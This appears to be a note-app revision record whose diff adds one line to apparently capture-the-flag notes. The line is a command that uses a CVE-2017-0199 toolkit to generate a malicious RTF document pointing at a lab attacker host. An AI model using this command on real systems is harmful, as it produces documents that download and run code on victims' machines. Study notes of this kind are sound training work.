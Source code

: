 id: 6039d0cbd40b49fa8da80ae67c35880f
parent_id: 95f81acc36c64592afc953f439c46333
item_type: 1
item_id: f21c6f5f2f59420ca228482d82081874
item_updated_time: 1642562479062
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"sh/CVE-2017-0199\"],[1,\"\\\n> \\\n> python cve-2017-0199_toolkit.py -M gen -w ippsec.rtf -u http://10.10.14.17 -t RTF -x 0\"]],\"start1\":3068,\"start2\":3068,\"length1\":16,\"length2\":108}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T03:25:37.783Z
created_time: 2022-01-19T03:25:37.783Z
type_: 13